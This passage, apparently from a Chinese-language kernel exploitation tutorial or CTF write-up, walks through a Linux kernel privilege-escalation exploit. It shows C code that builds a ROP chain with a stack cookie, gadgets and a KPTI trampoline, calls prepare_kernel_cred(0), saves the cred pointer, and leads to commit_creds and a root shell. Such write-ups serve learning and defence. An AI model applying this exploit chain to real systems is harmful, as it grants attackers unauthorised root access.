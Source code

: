 使用全局变量**commit_creds**存储其地址，同样的对**prepare_kernel_cred**采取同样的操作在**stage_2**



#### get_cred_strut

同样的原因，需要获取**prepare_kernel_cred(0)**的cred_struct指针并在用户态存储其值

```c
unsigned long cred_struct;
void get_cred_sturct(){
    __asm__ volatile(
        ".intel_syntax noprefix;"
        "mov tmp_store, rax;"
        ".att_syntax;"
    );

    cred_struct = tmp_store;
    printf("[*] =====> Got cred_struct: %lx\n", cred_struct);
    stage_4();
}

/*call prepare_kernel_cred(0)*/
void stage_3(){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;

    payload[off++] = cookie;
    payload[off++] = 0x0;
    payload[off++] = 0x0;
    payload[off++] = 0x0;
    payload[off++] = PopRdiRet;         //ret
    payload[off++] = 0;
    payload[off++] = prepare_kernel_cred;   //prepare_kernel_cred(0)
    
    payload[off++] = kpti_trampoline;
    payload[off++] = 0x0;
    payload[off++] = 0x0;
    payload[off++] = (unsigned long)get_cred_sturct;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to call prepare_kernel_cred(0)");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached!");
}
```

然后在stage_4调用**commit_creds**返回用户态**get_shell**完成提权
